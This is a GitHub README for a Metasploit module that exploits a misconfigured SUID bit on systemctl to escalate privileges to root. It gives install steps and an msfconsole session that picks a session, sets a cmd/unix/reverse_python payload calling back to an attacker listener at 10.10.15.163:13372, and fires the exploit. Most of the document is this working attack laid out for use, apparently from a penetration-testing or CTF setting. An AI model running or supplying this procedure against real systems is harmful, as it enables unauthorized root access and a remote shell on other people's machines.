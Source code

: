 # SUID systemctl Exploit (MSF - Metasploit exploit module)

### Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl binary to escalate privileges 
  & get a root shell!

### Install
  1 : copy the suid_systemctl.rb to ~/.msf4/modules/exploits/ folder
  
  2 : reload all modules at msf console, type reload_all 
  
### Usage 
```
msf5 exploit(linux/local/suid_systemctl) > info

       Name: SUID systemctl Exploit
     Module: exploit/linux/local/suid_systemctl
   Platform: Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  0xl0v3r

Available targets:
  Id  Name
  --  ----
  0   Command payload

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  SESSION      13               yes       The session to run this module on.
  WritableDir  /dev/shm         yes       A directory where we can write files
  systemctl    /bin/systemctl   yes       Path to systemctl executable

Payload information:

Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl 
  binary to escalate privileges & get a root shell!

References:
  https://gtfobins.github.io/gtfobins/systemctl/
  https://github.com/Code-L0V3R/suid_systemctl

msf5 exploit(linux/local/suid_systemctl) > set session 13
session => 13
msf5 exploit(linux/local/suid_systemctl) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/local/suid_systemctl) > set lhost 10.10.15.163 
lhost => 10.10.15.163
msf5 exploit(linux/local/suid_systemctl) > set lport 13372
lport => 13372
msf5 exploit(linux/local/suid_systemctl) > exploit 
```

<img src='systemctl-poc.png' alt="POC">

### References: 
  https://gtfobins.github.io/gtfobins/systemctl/
  
# GG
